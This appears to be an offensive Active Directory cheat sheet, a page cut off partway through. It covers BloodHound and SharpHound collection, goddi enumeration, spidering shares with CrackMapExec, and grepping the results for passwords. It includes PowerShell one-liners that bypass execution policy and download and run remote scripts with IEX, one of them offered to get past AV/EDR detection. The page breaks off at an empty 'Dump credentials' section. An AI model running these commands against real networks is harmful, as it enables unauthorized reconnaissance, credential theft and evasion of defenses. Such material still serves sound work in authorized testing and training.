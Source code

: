 ```yaml
---
layout: archives
icon: fas fa-archive
order: 3
---
```


# Active Directory

## Mapping & Enumeration

### Bloodhound
Use BloodHound to find compromission paths. First execute the collector on a host that is in the targeted domain.
```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString(‘https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1’);Invoke-BloodHound"
```
If it's possible, execute SharpHound. On Linux, you can use the python version. More information here : <https://github.com/BloodHoundAD/SharpHound> and <https://github.com/fox-it/BloodHound.py>
```bash
python3 bloodhound.py -u 'XXX' -dc 'DOMAIN' -c all
```
The tool give you a zip file, that you have to send to a Neo4j database. On Linux, install Neo4j and start the service :
```bash
sudo neo4j start
```
Then execute BloodHound and import the zip file.

### Goddi
To get all the important information from the Active Directory :
```bash
./goddi-linux-amd64 -dc IP_DC -domain=DOMAIN -username=USERNAME -password=PASSWORD -unsafe
```

## Shares
Dump all shares via CrackMapExec. This can be used on native Kali distribution :
```bash
crackmapexec smb IP_ADDRESS/MASK -u 'XXX' -p 'XXX' -M spider_plus -o READ_ONLY=false
```
This command create a directory cme_spider_plus in /tmp (for Linux). To retrive passwords, simply use grep, by using keywords like 'password', 'pass', 'username', 'ldap://', etc ..
```bash
grep -rnw ./ -e 'password'
```
If detected by AV/EDR, try PowerShell one-liner PowerView :
```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')"
```
Then, a lot of functionalities can be used. To find all domain shares :
```powershell
Find-DomainShare -CheckShareAccess
```
All the functionalities here : <https://powersploit.readthedocs.io/en/latest/Recon/>
## Dump credentials
### CrackMapExec
Many possibilites. Use --local-auth if using a local admin account.
With lsassy module :
```bash
```